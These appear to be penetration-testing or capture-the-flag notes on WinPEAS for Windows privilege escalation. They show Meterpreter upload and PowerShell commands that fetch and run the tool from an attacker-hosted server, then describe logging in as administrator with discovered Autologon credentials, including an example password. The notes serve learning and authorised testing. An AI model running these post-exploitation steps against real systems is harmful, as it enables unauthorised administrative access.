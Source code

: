 # WinPeas
```
# Download it in your localhost
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220717/winPEASx64.exe 
mv winPEASx64.exe winPEAS.exe 

# in meterpreter
cd c:\windows\temp
upload winPeas.exe
winPeas.exe

# download via powershell and python server
powershell -command "Invoke-WebRequest -Uri 'http://10.10.10.10:8888/winPeas.exe' -OutFile '.\winPeas.exe'"
```


## WinPEAS


### Autologon Credentials was found

If you found Autologon credentials for the administrator user with the password 4q6XvFES7Fdxs using WinPeas, you can use these credentials to log in to the system as the administrator user.

To do so, you can reboot the system and press F8 during boot to enter the Windows Advanced Boot Options menu. From there, select "Safe Mode with Networking" to boot the system into Safe Mode with networking support.

Once you have booted into Safe Mode, you can use the administrator username and 4q6XvFES7Fdxs password to log in to the system. Once you are logged in, you will have administrative access to the system and can perform various tasks as necessary.

